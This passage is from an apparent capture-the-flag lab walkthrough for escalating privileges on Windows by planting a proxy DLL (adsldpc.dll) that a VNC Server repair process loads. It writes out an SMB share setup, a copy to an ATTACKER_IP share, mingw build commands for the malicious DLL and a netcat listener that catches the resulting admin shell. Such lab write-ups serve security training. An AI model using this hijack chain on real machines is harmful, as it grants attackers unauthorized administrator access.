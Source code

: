 ```python
print("EXPORTS", end="\r\n")

for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
    if export.name:
        print(f"    {export.name.decode()}={original_path}.{export.name.decode()} @{export.ordinal}", end="\r\n")
```

Now go back to your home folder and run the smbserver again like we did in the last task.

```bash
/opt/impacket/examples/smbserver.py -smb2support -username thm-unpriv -password Password321 public share
```

Hop on the windows box and copy over the **adsldpc.dll** to your attack box.

```shell
copy C:\Windows\System32\adsldpc.dll \\ATTACKER_IP\public\
```

Now the dll should be in your share folder.
cd into the share folder and run the **get_exports.py** script with the following arguments.

```bash
python3 get_exports.py --target adsldpc.dll --originalPath 'C:\Windows\System32\adsldpc.dll' > proxy.def
```

Now we will compile a new dll (again I recomend using the attack box as it already has the required packages).

- We will run this first to output a proxy.o file
```bash
x86_64-w64-mingw32-gcc -m64 -c -Os proxy.c -Wall -shared -masm=intel
```
- Then compile the .o and .def files to the .dll
```bash
x86_64-w64-mingw32-gcc -shared -m64 -def proxy.def proxy.o -o proxy.dll
```

Now get the proxy.dll onto the windows box however you like again I used python. and move it to the temp directory under the name **adsldpc.dll**

```shell
move proxy.dll C:\Users\thm-unpriv\AppData\Local\Temp\adsldpc.dll
```

Now to trigger the repair process open system settings -> apps -> apps & features, and scroll down to VNC Server.

Hop to your attack box and start up a listener on port 6666 (the payload we put in the proxy.c file) 

```bash
nc -lvp 6666
```

now go back to the windows box and press modify -> repair -> repair, and you should get a shell. The flag is on the admin's desktop.
